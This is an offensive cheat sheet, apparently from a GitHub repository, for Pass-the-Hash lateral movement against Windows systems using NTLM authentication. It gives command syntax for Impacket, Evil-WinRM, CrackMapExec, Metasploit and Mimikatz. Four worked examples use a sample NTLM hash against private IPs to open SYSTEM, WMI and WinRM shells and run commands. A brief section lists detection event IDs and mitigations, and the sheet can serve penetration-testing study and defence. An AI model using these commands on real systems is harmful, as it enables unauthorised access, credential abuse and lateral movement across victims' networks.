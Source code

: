 # **Pass the Hash (PtH) Cheat Sheet**  
*Lateral movement using NTLM hashes instead of plaintext passwords.*  

---

#### **Description**  
- **What**: Authenticate to remote systems/services using an NTLM hash (bypassing plaintext passwords).  
- **Works For**: Systems using **NTLM authentication** (not Kerberos).  
- **MITRE ATT&CK**: [T1550.002](https://attack.mitre.org/techniques/T1550/002/) (Use Alternate Authentication Material).  

---

### **Prerequisites**  
1. **Local Admin Rights**:  
   - User must be a member of the **target’s local Administrators group** (or Domain Admin).  
   - Applies to:  
     - Built-in local Administrator account.  
     - Domain accounts with local admin privileges.  
     - *Note*: Post-2014 security updates block PtH for non-built-in local admin accounts.  

2. **Network Access**:  
   - SMB port **445/TCP** open (firewall).  
   - **File and Printer Sharing** enabled (default on Windows).  

3. **ADMIN$ Share**:  
   - Must be available (default enabled on Windows).  

---

### **Tools & Commands**  
| **Tool**               | **Command Syntax**                                                                 |  
|-------------------------|-----------------------------------------------------------------------------------|  
| **Impacket (psexec)**   | `impacket-psexec -hashes <LM:NT> <USER>@<TARGET_IP>`                              |  
| **Impacket (wmiexec)**  | `impacket-wmiexec -hashes <LM:NT> <USER>@<TARGET_IP>`                             |  
| **Evil-WinRM**          | `evil-winrm -i <TARGET_IP> -u <USER> -H <NTLM_HASH>`                              |  
| **CrackMapExec**        | `crackmapexec smb <TARGET_IP> -u <USER> -H <NTLM_HASH> -x "<COMMAND>"`            |  
| **Metasploit (PsExec)** | `use exploit/windows/smb/psexec` + set `SMBPass` (NTLM hash)                      |  
| **Mimikatz**            | `sekurlsa::pth /user:<USER> /domain:<DOMAIN> /ntlm:<NTLM_HASH> /run:<COMMAND>`    |  

---

#### **Examples**  
**1. Impacket’s wmiexec**:  
```bash  
impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.50.73  
```  
- **Result**: Semi-interactive shell via WMI.  
**2. Impacket’s psexec**:  
```bash  
impacket-psexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.139.72  
```  
- **Result**: Spawns a SYSTEM-level shell via SMB.  

**3. Evil-WinRM**:  
```bash  
evil-winrm -i 192.168.139.72 -u Administrator -H "2892D26CDF84D7A70E2EB3B9F05C425E"  
```  
- **Result**: Interactive WinRM shell (requires WinRM enabled on target).  

**4. CrackMapExec**:  
```bash  
crackmapexec smb 192.168.139.72 -u Administrator -H "2892D26CDF84D7A70E2EB3B9F05C425E" -x "whoami"  
```  
- **Result**: Executes `whoami` on the target and returns output.  
---

### **Key Notes**  
1. **Limitations**:  
   - Doesn’t work for Kerberos-authenticated services.  
   - Blocked for non-built-in local admin accounts (post-2014 patches).  

2. **Stealth**:  
   - **Impacket**: Leaves traces in Windows Event Logs (e.g., `Event ID 4688`).  
   - **CrackMapExec**: Ideal for mass lateral movement and reconnaissance.  
   - **Evil-WinRM**: Requires WinRM (5985/5986) access and valid credentials.  

---

### **Detection & Mitigation**  
**Detection**:  
- **SMB**: Monitor for `Event ID 4624` (Logon Type 3) and `Event ID 5140` (Network Share Access).  
- **WinRM**: Check `Event ID 4688` (Process Creation) for `evil-winrm` or PowerShell remoting.  

**Mitigation**:  
- Disable NTLM (enforce **Kerberos**).  
- Use **LAPS** for unique local admin passwords.  
- Block unnecessary SMB/WinRM traffic.  

---

### **References**  
- [Impacket Tools](https://github.com/fortra/impacket)  
- [Evil-WinRM Guide](https://github.com/Hackplayers/evil-winrm)  
- [CrackMapExec Wiki](https://wiki.porchetta.industries/)  
